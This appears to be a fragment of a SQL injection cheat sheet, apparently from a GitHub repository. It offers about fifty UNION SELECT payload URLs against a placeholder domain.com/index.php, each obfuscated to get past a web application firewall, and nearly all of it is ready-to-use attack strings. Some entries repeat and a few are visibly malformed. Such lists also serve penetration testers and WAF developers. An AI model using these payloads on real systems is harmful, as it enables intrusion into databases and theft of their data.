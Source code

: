 ```

If the queries are blocked by WAF, try the following payloads:  

```
http://domain.com/index.php?id=1 /*!50000%55nIoN*/ /*!50000%53eLeCt*/ null,null,null,null  
http://domain.com/index.php?id=1 %55nion(%53elect 1,2,3) null,null,null,null  
http://domain.com/index.php?id=1+union+distinctROW+select+null,null,null,null--+-  
http://domain.com/index.php?id=1+ #?uNiOn + #?sEleCt null,null,null,null  
http://domain.com/index.php?id=1 + #?1q %0AuNiOn all#qa%0A#%0AsEleCt null,null,null,null  
http://domain.com/index.php?id=1 /*!%55NiOn*/ /*!%53eLEct*/ null,null,null,null  
http://domain.com/index.php?id=1 +un/**/ion+se/**/lect null,null,null,null  
http://domain.com/index.php?id=1 +?UnI?On?+'SeL?ECT? null,null,null,null  
http://domain.com/index.php?id=1+(UnIoN)+(SelECT)+null,null,null,null--+-  
http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ null,null,null,null  
http://domain.com/index.php?id=1 %55nion(%53elect null,null,null,null)
http://domain.com/index.php?id=1 /**//*!12345UNION SELECT*//**/ null,null,null,null  
http://domain.com/index.php?id=1 /**//*!50000UNION SELECT*//**/ null,null,null,null  
http://domain.com/index.php?id=1 /**/UNION/**//*!50000SELECT*//**/ null,null,null,null  
http://domain.com/index.php?id=1 /*!50000UniON SeLeCt*/ null,null,null,null  
http://domain.com/index.php?id=1 union /*!50000%53elect*/ null,null,null,null  
http://domain.com/index.php?id=1 /*!u%6eion*/ /*!se%6cect*/ null,null,null,null  
http://domain.com/index.php?id=1 /*--*/union/*--*/select/*--*/ null,null,null,null  
http://domain.com/index.php?id=1 union (/*!/**/ SeleCT */ null,null,null,null)
http://domain.com/index.php?id=1 /*!union*/+/*!select*/ null,null,null,null  
http://domain.com/index.php?id=1 /**/uNIon/**/sEleCt/**/ null,null,null,null  
http://domain.com/index.php?id=1 +%2F**/+Union/*!select*/ null,null,null,null  
http://domain.com/index.php?id=1 /**//*!union*//**//*!select*//**/ null,null,null,null  
http://domain.com/index.php?id=1 /*!uNIOn*/ /*!SelECt*/ null,null,null,null  
http://domain.com/index.php?id=1 /**/union/*!50000select*//**/ null,null,null,null  
http://domain.com/index.php?id=1 0%a0union%a0select%09 null,null,null,null  
http://domain.com/index.php?id=1 %0Aunion%0Aselect%0A null,null,null,null  
http://domain.com/index.php?id=1 uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ null,null,null,null  
http://domain.com/index.php?id=1 %252f%252a*/UNION%252f%252a /SELECT%252f%252a*/ null,null,null,null  
http://domain.com/index.php?id=1 /*!union*//*--*//*!all*//*--*//*!select*/ null,null,null,null  
http://domain.com/index.php?id=1 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C null,null,null,null
http://domain.com/index.php?id=1 /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ null,null,null,null  
http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ null,null,null,null  
http://domain.com/index.php?id=1 union+sel%0bect null,null,null,null  
http://domain.com/index.php?id=1 +#1q%0Aunion all#qa%0A#%0Aselect null,null,null,null  
http://domain.com/index.php?id=1 %23xyz%0AUnIOn%23xyz%0ASeLecT+ null,null,null,null  
http://domain.com/index.php?id=1 %23xyz%0A%55nIOn%23xyz%0A%53eLecT+ null,null,null,null  
http://domain.com/index.php?id=1 union(select(null),null,null)
http://domain.com/index.php?id=1 uNioN (/*!/**/ SeleCT */ 11) null,null,null,null  
http://domain.com/index.php?id=1 /**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/ null,null,null,null  
http://domain.com/index.php?id=1 %0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/ null,null,null,null  
http://domain.com/index.php?id=1 +union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C null,null,null,null  
http://domain.com/index.php?id=1 /*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/ null,null,null,null  
http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ null,null,null,null  
http://domain.com/index.php?id=1 +/*!UnIoN*/+/*!SeLeCt*/+ null,null,null,null  
http://domain.com/index.php?id=1 /*!u%6eion*/ /*!se%6cect*/ null,null,null,null  
http://domain.com/index.php?id=1 uni%20union%20/*!select*/%20 null,null,null,null  
http://domain.com/index.php?id=1 union%23aa%0Aselect null,null,null,null  
http://domain.com/index.php?id=1/**/union/*!50000select*/ null,null,null,null  
http://domain.com/index.php?id=1 /^****union.*$/ /^****select.*$/ null,null,null,null  
http://domain.com/index.php?id=1 /*union*/union/*select*/select+ null,null,null,null  
http://domain.com/index.php?id=1 /*!50000UnION*//*!50000SeLeCt*/ null,null,null,null  